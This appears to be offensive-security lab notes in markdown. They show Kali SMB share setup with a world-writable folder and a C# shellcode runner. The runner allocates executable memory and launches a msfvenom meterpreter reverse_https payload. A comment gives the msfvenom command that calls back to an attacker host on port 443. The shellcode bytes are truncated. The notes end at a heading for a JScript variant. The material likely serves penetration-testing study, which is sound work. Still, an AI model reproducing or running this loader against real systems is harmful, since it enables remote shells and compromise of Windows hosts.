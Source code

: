 ```bash
sudo smbpasswd -a kali

sudo systemctl start smbd
sudo systemctl start nmbd

mkdir /home/kali/data
chmod -R 777 /home/kali/data
```

```cmd
\\192.168.119.120\visualstudio\ConsoleApp1\ConsoleApp1\bin\Release\ConsoleApp1.exe
```

```csharp
using System;
using System.Runtime.InteropServices;

namespace ShellcodeRunner
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static void Main(string[] args)
        {
            // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.45.179 LPORT=443 EXITFUNC=thread -f csharp
            byte[] buf = new byte[722] {0x06, 0xb2, 0x79, 0x1e, 0x0a, 0x12, 0x36, 0xfa, ..., 0x2f};

            int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```

## Jscript Shellcode Runner (DotNetToJscript)
